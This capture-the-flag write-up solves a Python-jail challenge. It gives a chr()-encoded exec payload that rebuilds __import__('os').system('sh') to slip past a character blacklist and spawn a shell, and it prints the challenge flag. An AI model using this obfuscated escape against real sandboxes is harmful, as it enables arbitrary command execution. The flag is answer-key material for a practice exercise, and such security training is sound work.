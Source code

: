 # nehebkaus trap
> In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?

## About the Challenge
Classic pyjail chall :D

![preview](images/preview.png)

## How to Solve?
There is a some restriction, if we input

```
print(globals())
```

You can see the blacklist character

![blacklist](images/blacklist.png)

But we can still use some useful function, for example `breakpoint` or `exec`. In this case im using `exec` function to escape from the sandbox

```
exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(115)+chr(104)+chr(39)+chr(41))
```

This payload will import `os` package and using `system` function

![flag](images/flag.png)

```
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!} 
```